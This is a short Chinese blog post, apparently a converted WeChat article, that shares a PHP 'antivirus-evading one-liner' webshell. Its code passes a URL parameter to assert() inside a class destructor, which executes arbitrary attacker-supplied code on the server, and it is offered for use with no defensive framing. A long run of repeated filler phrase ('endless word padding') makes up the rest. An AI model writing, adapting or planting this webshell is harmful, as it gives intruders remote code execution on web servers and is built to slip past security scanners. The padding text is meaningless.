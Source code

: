 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lwAH50QEqamaTsixrijrhw)

**今天水一篇文.... 实在忙，写了一个 php 的免杀一句话分享给大家**  

```
<?php
class me{
    public $a;
    function __destruct(){
        @assert("$this->a");
    }
     
}
 
$b = new me;
@$b->a = $_GET['a']; 
 
?>
```

无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字无限凑字